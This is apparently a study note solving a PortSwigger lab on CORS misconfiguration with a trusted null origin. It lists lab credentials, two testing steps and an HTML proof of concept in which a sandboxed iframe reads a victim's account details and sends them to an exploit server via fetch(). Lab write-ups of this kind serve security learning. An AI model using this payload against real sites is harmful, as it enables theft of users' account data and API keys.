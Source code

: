 ```yaml
---
tags:
  - APPRENTICE
Link:
  - "[[CORS]]"
External Link:
  - https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
---
```


# CORS vulnerability with trusted null origin
---

**Target Goal** - Exploit the CORS misconfiguration to retrieve the administrator's API key

**Creds** - wiener : peter

**Analysis:**

**Testing for CORS misconfigurations:**
1. Change the origin to an arbitrary value
2. Change the origin header to the null value

**POC**:

```html
<html>
	<body>
		<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
		<script>
			var url = 'http://YOUR-LAB-ID.web-security-academy.net'
			var req = new XMLHttpRequest();
			req.onreadystatechange = reqListener;
			req.open('GET', url + '/accountDetails', true);
			req.withCredentials = true;
			req.send(null);
			
			function reqListener(){
				if(req.readyState == XMLHttpRequest.DONE){
					fetch('https://exploit-YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' + req.responseText)
				}
			}
		</script>"></iframe>
	</body>
</html>
```





















